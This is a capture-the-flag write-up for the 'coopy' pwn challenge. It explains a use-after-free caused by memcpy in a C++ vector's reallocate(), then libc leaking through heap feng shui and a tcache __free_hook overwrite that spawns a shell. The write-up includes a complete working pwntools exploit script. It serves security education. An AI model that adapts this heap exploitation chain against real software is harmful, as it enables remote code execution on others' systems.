

# 🩸 coopy
DIY Vector class cuz why not.

MD5 (coopy.zip) = 7c2b30e58186fec54ac469de6ce6c305

Author: enigmatrix

`nc challs.nusgreyhats.org 13501`

```sh
$ tree coopy
coopy
├── coopy
├── coopy.cpp
├── ld-2.31.so
└── libc-2.31.so
$ checksec coopy
[*] 'coopy/coopy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# TL;DR
0. you can get a UAF due to `reallocate()` using `memcpy`
1. to leak libc: add and edit a big string to get a UAF read on an unsorted bin chunk
2. to spawn shel: edit a UAF tcache chunk to point to `&__free_hook`; write `system()` to it with more allocations and call `/bin/sh`.

# Prelude
This pwn challenge can be broken down into 3 subproblems:
1. Reading the code, esp. understanding when malloc/free is called
2. Getting the right UAFs, i.e. heap fengshui
3. getting RCE

(1) is an especially interesting problem, if you have not done any cpp pwns before. But, before that, let's define a few things:

## pwntools glue
```python
from typing import List
from pwnscripts import *
context.binary = './coopy'
context.libc = './libc-2.31.so'
context.libc.symbols['main_arena'] = 0x1ecb80
r = remote('challs.nusgreyhats.org', 13501)

def cmd(opt: int, index: int=None, s: bytes=None):
    r.sendlineafter(b'\n>', str(opt))
    if index is not None:
        r.sendlineafter(b'index: ', str(index))
    if s is not None:
        r.sendlineafter(b'string: ', s)

def add(s: bytes): cmd(1, s=s)
def read(ind: int) -> bytes:
    cmd(2, ind)
    r.recvuntil(': ')
    return r.recvline()
def edit(ind: int, s: bytes): cmd(3, ind, s)
def stats(ind: int) -> List[bytes]:
    cmd(1337, ind)
    res = []
    for _ in range(6):
        r.recvuntil(': ')
        res.append(r.recvline())
    return res
```

## Allocation patterns in cpp
`coopy.cpp` is a wonderfully clean file. The code provided, ignoring `print_stats()`, is gentle on the eyes, and you can intuit "the binary is about a dynamically-sized list that stores dynamically-sized strings", even if you don't really understand the cpp syntax.

That clean code is a deception, when it comes to the heap. Allocations / deallocations are difficult to discern from the source code alone, and `malloc`/`free` calls will happen in places you'd least expect. Consider these two lines:
```c
    cin >> str;
    v.push_back(str);
```
Will `malloc`/`free` be called here? This is a complex question that deserves a flow-chart:



Let's take this line-by-line. In the first line, we're reading a `string` from stdin:
```cpp
cin >> str;
```
[As I've written before](https://152334h.github.io/writeup/2021/07/11/redpwn-panda-food.html), cpp `string`s are roughly like this:
```c
struct basic_string {
    union {
        struct {
            char *p; // when capacity>0xf, p holds a pointer to the actual bytes of the string data.
            size_t size; // don't really know what happens to this for capacity < 0x10
        };
        char buf[0x10]; // when capacity <0x10, this is used
    };
    size_t capacity;
} // sizeof(basic_string) == 0x20
```
`str` itself merely exists in the stack. When `cin` reads into `str`, it will try to fit the input data into the `basic_string` struct without calling `malloc()`, but _if_ the input exceeds `0xf` bytes, the STL will move to allocate buffers for the string data [exponentially](https://blog.mozilla.org/nnethercote/2014/11/04/please-grow-your-buffers-exponentially/) -- starting from `malloc(0x1f)` and increasing from there.

So, that incredibly small piece of code is actually **too complex** to classify under "will never allocate" or "will always allocate". How about the next line?
```cpp
v.push_back(str);
```
Well...
* **If `str.length() > 0xf`**, then `str` contains `malloc`'d data, and the copy constructor for that string will _also_ call `malloc()` when `._push_back()` is called.
* If `v[]` is already full, then `v[]` will try to reallocate itself:
   ```c
    void reallocate() {
        // ...
        auto nptr = new T[ncap];
        memcpy(nptr, ptr, len * sizeof(T));
        delete []ptr;
        // ...
    }
    ```
   This causes 1 call of `malloc()`, and a _variable number_ of calls to `free()`. The number of calls to `free()` ultimately depends on whether each element inside `ptr[]` will also call `free()` when their deconstructor is called.
* If none of those cases apply, then `.push_back()` doesn't affect the heap at all!!!

So this is pretty bad for our pwn sanity. But on the bright side, we uncovered the bug!

### What's the bug?
In `main()`, the dynamically-sized list of strings is initialised with a length of 4:
```cpp
int main() {
    Vector<string> v(4);
    // ...
}
```
Once the `Vector[4]` is full, adding a new (5th) string to it will cause `reallocate()` to be called:
```cpp
void push_back(T val) {
    if (len == cap) { reallocate(); }
    // ...
}
```
`reallocate()` does a very bad thing: it **uses `memcpy` on objects that aren't [Copy](https://doc.rust-lang.org/std/marker/trait.Copy.html)**:
```cpp
void reallocate() {
    // ...
    auto nptr = new T[ncap];
    memcpy(nptr, ptr, len * sizeof(T)); // this is bad
    delete []ptr; // this makes the bad worse
    // ...
}
```
After `reallocate()`, the `Vector<string>` contains 4 deleted strings (and one newly-allocated string). This is a **Use After Free**.

### Using UAF
Before we start writing to anywhere, we need to figure out how to obtain a libc address, because there's no win function. Classically, going from heap -> libc implies leaking the location of `main_arena`, which is easiest to acquire from a freed `unsorted_bin` chunk.

Getting an unsorted_bin chunk available is a little bit difficult if you don't clearly understand when (de)allocations happen. In this case, we need to do **two things**:
1. keep a sufficiently large (a bit less than 0x500) chunk in a `string` before `reallocate()`
2. arrange the heap to prevent that large chunk from getting consolidated somewhere else (this is the fengshui part)

I fumbled with this for a really long time, and I'm choosing to only explain the working path I found:
1. `add(0x500)`. This will make the heap look like this:
    ```
    [freed chunk of size ~0xc00] <-- on unsorted bin
    [chunk of size ~0x500]
    [top chunk]
    ```
    Why does this happen? From _my personal unconfirmed spectulations_, cpp `string`s do not merely allocate memory exponentially, but actually apply a "just enough" shrink strategy once enough memory is allocated. So, when `cin` receives a string of length 0x500:
    ```c
    enter string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    malloc(0x1f) = 0x55a5dbb80760 // <-- exponential begins
    malloc(0x3d) = 0x55a5dbb80790
    free(0x55a5dbb80760)
    malloc(0x79) = 0x55a5dbb807e0
    free(0x55a5dbb80790)
    malloc(0xf1) = 0x55a5dbb80870
    free(0x55a5dbb807e0)
    malloc(0x1e1) = 0x55a5dbb80970
    free(0x55a5dbb80870)
    malloc(0x3c1) = 0x55a5dbb80b60
    free(0x55a5dbb80970)
    malloc(0x781) = 0x55a5dbb80f30 // <-- this is large enough
    free(0x55a5dbb80b60)
    malloc(0x501) = 0x55a5dbb816c0 // <-- so the STL will truncuate the data to just-fit
    malloc(0x501) = 0x55a5dbb81bd0 // <-- idk why this happens twice, but the duplication happens for string allocations of all sizes > 0xf.
    free(0x55a5dbb816c0)
    free(0x55a5dbb80f30) // this free will consolidate backwards with all of the previously freed pointers. Final unsorted_bin chunk size ~= 0xc00
    ```
    In any case, the allocated chunk is currently adjacent to the top chunk. This is Bad, because freeing the 0x500 chunk at this point would only grow the top chunk, instead of throwing the 0x500 to the `unsorted_bin`.
2. `edit(0, cyclic(0x600))`
    Calling `edit` will realloacate the string pointer to a chunk of size `0x500*2`, which will eat up the unsorted_bin chunk.
    ```c
    enter index: 0
    enter string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    malloc(0xa01) = 0x55789ee9ef30
    free(0x55789ee9fbd0)
    ```
    This is important because we want subsequent allocations to be pulled from the top chunk
3. make a few tcache allocations
    ```python
    add(b'A'*0x10) # this will be the top of tcache[size=0x20 or 0x30?]. Will overwrite ->fd later.
    add(b'B'*0x10) # idk why this needs to be 0x10 specifically,
    add(b'C'*0x10) # or this one, but smaller sizes will cause exploit to fail...
    ```
4. Trigger the `reallocate()` call
    ```python
    add(b'D'*0xe)  # This will not allocate anything, but will trigger reallocate()
    ```
    So long as the `new T[ncap]` allocation pulls from the top chunk, the pointers freed during `reallocate()` should be safe from consolidation. This leaves an `unsorted_bin` chunk at `v[0]`, and so...
5. `context.libc.symbols['main_arena'] = unpack(read(0)[:6].ljust(8, b'\x00')) -0x60`

### RCE
Because this challenge uses libc-2.31, and we have several easy UAFs, the easiest path to victory will be to
1. leak libc (done!)
2. overwrite the ->fd pointer on a UAF tcache chunk with `__free_hook`
3. Write `system` to that `__free_hook` chunk
4. Call `free("/bin/sh")`

This is all very simple:
```python
edit(1, pack(context.libc.sym.__free_hook))
add(pack(context.libc.symbols['system']).ljust(0x10,b'\0'))
edit(2, b'/bin/sh'.ljust(0x20, b'\0'))
r.interactive()
```

## Full script
```python
from pwnscripts import *
context.binary = './coopy'
context.libc = './libc-2.31.so'
context.libc.symbols['main_arena'] = 0x1ecb80
#context.log_level = 'debug'
#r = context.binary.process()
r = remote('challs.nusgreyhats.org', 13501)

def cmd(opt: int, index: int=None, s: bytes=None):
    r.sendlineafter(b'\n>', str(opt))
    if index is not None:
        r.sendlineafter(b'index: ', str(index))
    if s is not None:
        r.sendlineafter(b'string: ', s)

def add(s: bytes): cmd(1, s=s)
def read(ind: int):
    cmd(2, ind)
    r.recvuntil(': ')
    return r.recvline()
def edit(ind: int, s: bytes): cmd(3, ind, s)
def stats(ind: int):
    cmd(1337, ind)
    res = []
    for _ in range(6):
        r.recvuntil(': ')
        res.append(r.recvline())
    return res

# after 5 allocations, there will be UAF
add(cyclic(0x500))
''' This first step will make the heap look like this:
[freed chunk of size ~0xc00]
[chunk of size ~0x500]
[top chunk]
'''
edit(0, cyclic(0x600)) 
''' Calling edit will realloc the string pointer to 2x the 0x500 chunk, which will take the freed chunk above
This is important because we need to prevent glibc from consolidating this unsorted_bin sized chunk once the 5th allocation happens.
'''
add(b'A'*0x10) # this will be the top of tcache[size=0x20 or 0x30?]. Will overwrite ->fd later.
add(b'B'*0x10) # idk why this is needed
add(b'C'*0x10) # or this one, but they are
add(b'D'*0xe)  # This will not allocate anything, but will trigger reallocate()
# leaks!
context.libc.symbols['main_arena'] = unpack(read(0)[:6].ljust(8, b'\x00')) -0x60
# overwrite ->fd with __free_hook
edit(1, pack(context.libc.sym.__free_hook))
# write system to __free_hook
add(pack(context.libc.symbols['system']).ljust(0x10,b'\0'))
# trigger __free_hook with "/bin/sh\0"
edit(2, b'/bin/sh'.ljust(0x20, b'\0'))

r.interactive()
```

# Flag
`grey{d0nt_c0py_1n_3x4ms}`
